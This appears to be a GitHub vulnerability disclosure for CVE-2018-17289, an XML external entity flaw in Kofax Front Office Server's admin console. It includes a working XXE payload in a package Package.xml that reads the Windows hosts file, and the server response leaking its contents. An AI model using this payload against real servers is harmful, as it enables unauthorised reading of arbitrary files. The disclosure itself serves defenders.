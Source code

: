 # CVE-2018-17289-XXE-Kofax

An XML external entity (XXE) vulnerability in Kofax Front Office Server Administration Console version 4.1.1.11.0.5212 allows remote authenticated users to read arbitrary files via crafted XML inside an imported package configuration (.ZIP file) within the Kofax/KFS/Admin/PackageService/package/upload file parameter.


The package archive contains two files: Package.xml and Shortcuts.xml. We modify the Package.xml file in order to include a known windows file in the name of the package:

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">
]>
<Package>
<Name><r>&sp;</r></Name>
<Description></Description>
</Package>
```


After zipping the two files and uploading the file in the application the XML file is processed and the file is included in the response:
<pre><code>
HTTP/1.1 200 OK
Cache-Control: no-cache
Content-Type: text/html
Vary: Accept-Encoding
Server: Removed
X-Frame-Options: SAMEORIGIN
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
Date: Removed
Connection: close
Content-Length: 2157

{"ErrorCode":0,"ErrorMessage":"","RedirectURL":"","ErrorKey":null,"ErrorLevel":0,"AdminObject":{"Version":"00000000-0000-0000-0000-000000000000","Description":"","ID":"00000000-0000-0000-0000-000000000000","Name":"<b># Copyright (c) 1993-2009 Microsoft Corp.\u000d\u000a#\u000d\u000a# This is a sample HOSTS file used by Microsoft TCP\/IP for Windows.\u000d\u000a#\u000d\u000a# This file contains the mappings of IP addresses to host names. Each\u000d\u000a# entry should be kept on an individual line. The IP address should\u000d\u000a# be placed in the first column followed by the corresponding host name.\u000d\u000a# The IP address and the host name should be separated by at least one\u000d\u000a# space.\u000d\u000a#\u000d\u000a# Additionally, comments (such as these) may be inserted on individual\u000d\u000a# lines or following the machine name denoted by a '#' symbol.\u000d\u000a#\u000d\u000a# For example:\u000d\u000a#\u000d\u000a#      102.54.94.97     rhino.acme.com          # source server\u000d\u000a#       38.25.63.10     x.acme.com              # x client host\u000d\u000a\u000d\u000a# localhost name resolution is handled within DNS itself.\u000d\u000a#\u0009127.0.0.1       localhost\u000d\u000a#\u0009::1             localhost\u000d\u000a"}</b>,"ArchivePath":"1.0:Shared:dc9a6689-7c39-4263-875f-7090d42b12fe\\dttop2.zip:False:File","AssociatedDestinations":[],"AssociatedShortcuts":[{"Version":"f86ce36b-86b3-4e7b-93d5-2afd0b67fe71","AdvancedPermission":{"SubmitAllOnThinClient":true},"Description":null,"DestinationReference":{"PrimaryKey":"5c6ea28b-ddc6-41f6-b879-d30c242196f4","NaturalKey":"Kofax Capture"},"ID":"52ed31fc-b35c-4b91-ab3d-07bf280075e9","IsVisibleOnMFP":true,"IsVisibleOnMobile":true,"IsVisibleOnThinClient":true,"Name":"OP","Namespace":null},{"Version":"ddd1b8d2-f497-4ad8-90f7-749246fca211","AdvancedPermission":{"SubmitAllOnThinClient":true},"Description":null,"DestinationReference":{"PrimaryKey":"5c6ea28b-ddc6-41f6-b879-d30c242196f4","NaturalKey":"Kofax Capture"},"ID":"896d16ec-b27e-49c9-a21d-cb38a6d28319","IsVisibleOnMFP":true,"IsVisibleOnMobile":true,"IsVisibleOnThinClient":true,"Name":"PAID","Namespace":null}]}
</code></pre>



